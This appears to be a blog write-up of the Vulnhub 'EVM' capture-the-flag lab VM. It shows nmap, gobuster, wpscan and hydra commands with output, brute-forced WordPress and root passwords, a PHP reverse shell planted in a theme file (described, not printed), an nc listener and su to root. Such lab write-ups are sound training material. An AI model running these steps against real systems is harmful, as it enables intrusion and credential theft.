 ```yaml
---
title: "EVM Vulnhub CTF Walkthrough"
description: "EVM Vulnhub CTF Walkthrough"
---
```

Another CTF walkthrough. 
You can find the VM [here](https://www.vulnhub.com/entry/evm-1,391/)

nmap 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/EVM]
└─$ nmap -p- -sV 192.168.56.103 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 05:02 EDT
Nmap scan report for 192.168.56.103
Host is up (0.0016s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

gobuster
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.103 
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.103/wordpress/
{% endhighlight %}

wpscan
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
{% endhighlight %}

Logging into the WordPress installation, injecting php reverse shell into the header.php file in the "Edit Theme" section. 

Set up the listener and getting a shell
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nc -lp 6666               
Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:46:13 up 15 min,  0 users,  load average: 0.12, 1.22, 1.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Spawning an interactive shell: 
{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ 
{% endhighlight %}

user root3r identified. Let's try to brute force our way into the ssh service. 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ hydra -l root3r -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.103 -V
{% endhighlight %}
No luck there. 


root3r home directory
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -asl
ls -asl
total 40
4 drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .
4 drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..
4 -rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
4 -rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
4 -rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
4 drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
4 -rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
4 -rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
4 -rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
0 -rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
4 -rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$
{% endhighlight %}

.root_password_ssh.txt gives us a password. That pasword didn't work when logging
in as root over SSH. 

Getting root shell:
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
su root
Password: willy26
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls -a
ls -a
.   .bash_history  .cache          .nano     proof.txt
..  .bashrc        .mysql_history  .profile
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
{% endhighlight %}
